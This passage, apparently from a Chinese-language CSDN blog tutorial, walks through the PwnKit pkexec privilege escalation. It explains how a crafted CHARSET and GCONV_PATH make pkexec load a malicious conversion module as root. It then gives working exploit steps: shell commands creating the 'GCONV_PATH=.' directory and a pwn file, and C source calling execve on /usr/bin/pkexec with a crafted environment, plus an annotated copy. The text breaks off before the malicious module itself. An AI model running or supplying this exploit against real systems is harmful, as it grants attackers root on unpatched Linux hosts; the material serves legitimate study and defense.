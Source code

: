![在这里插入图片描述](https://img-blog.csdnimg.cn/6f97c233abff46c7a61afce6c8acd2b5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
但如果不是utf-8字符，他实际上会调用另一个函数，尝试使用转换模块将错误的utf-8字符转换为正确的
![在这里插入图片描述](https://img-blog.csdnimg.cn/c5fab6071d364666ace8a6c203d74071.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
所以这里是关键的地方，我们需要完全控制这个转换模块
想法是
我们设置一个utf-8以外的东西，触发一个错误的判断，然后就会调用一个转换模块，我们可以使用一个名为gconv_path的环境变量来指定它，这个ICONV_OPEN函数会查看环境变量并从那里获取我们恶意的转换模块，一旦成功传输了我们的转换模块，它会尝试执行转换字符集，但实际上它是在执行我们的恶意代码，更重要的是，它是以root的身份执行的
# 利用脚本
首先我们先创建一个名为GCONV_PATH的目录
```
mkdir 'GCONV_PATH=.'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ac668748eb64f33b1c0fd2b515aab49.png)


然后并在其中放在一个名为pwn的文件
```
touch GCONV_PATH\=./pwn
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0eaa580984fc4f3f8328d3aeb36bbaae.png)
然后赋予pwn文件的执行权限
```
chmod +x pwn
```

然后新建一个文件
```
touch pwnkit.c
```
写入以下的代码
```
#include <unistd.h>

int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwn",
        "TERM=..",
        "PATH=GCONV_PATH=.",
        "CHARSET=BRUH",
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);  

    return 0;
}
```
解释
```
int main() {
    char *argv[] = { NULL };
    char *envp[] = {
        "pwn",               /我们将第一个环境变量设置pwn
        "TERM=..",       /这里会触发g_print打印错误
        "PATH=GCONV_PATH=.",            /然后环境变量等于GCONV_PATH
        "CHARSET=BRUH",          /设置为bruh来触发认为这不是utf-8的判断，并且它会尝试进行转换
        NULL
    };
    execve("/usr/bin/pkexec", argv, envp);    

    return 0;
}
```